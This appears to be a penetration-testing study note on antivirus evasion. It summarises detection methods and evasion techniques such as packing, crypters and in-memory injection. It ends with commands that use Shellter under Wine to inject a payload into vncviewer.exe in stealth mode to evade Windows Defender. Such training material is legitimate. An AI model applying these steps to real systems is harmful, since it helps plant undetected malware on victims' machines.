```yaml
---
up: "[[Obfuscation]]"
---
```


# AV Evasion with Shellter

- How to avoi dvery basic signature based AV
- Defense Evasion consists of techniques used to avoid detection.
	- uninstalling/disabling security software
	- obfuscating/encrypting data and scripts
	- leverage and abuse trusted processes to hide malware

## AV Detection Methods

1. Signature based
	- unique sequence of bytes that identifies malware
	- need to check the payload doesn't match any known signature
2. Heuristic-based 
	- Relies on rules or decisions to determine if it is malicious
	- Also looks for specific pattern in code or program calls
3. Behavior based 
	- Monitor the behavior

## AV Evasion Techniques

### On disk evasion techniques

- Obfuscation
	- process of concealing something important
- Encoding
	- changing data into a new format
- Packing
	- Generate executable with new binary structure with a smaller size
- Crypters
	- Encrypt code or payloads and decrypt it in memory.
	- Decryption function is stored in a stub

### In memory evasion techniques

- Focuses on manipulating memory and does not write files to disk
- Injects payload into a process by leveraging various Windows APIs
- Payload is then executed in memory in a separate thread

## Demonstration

Evade Windows Defender on a Windows 7 system using [[Shellter]]:

```bash
# package is a windows package
sudo apt install shellter
# needs wine 32bit
dpkg --add-architecture i386
sudo apt install wine32
$ cd /usr/share/windows-resources/shellter
$ sudo wine shellter.exe
$ cp /usr/share/windows-binaries/vncviewer.exe .
$ sudo wine shellter.exe
: A
: ~/vncviewer.exe
Stealth Mode: Y
# custom for msfvenom
Payload: L
: 1
```
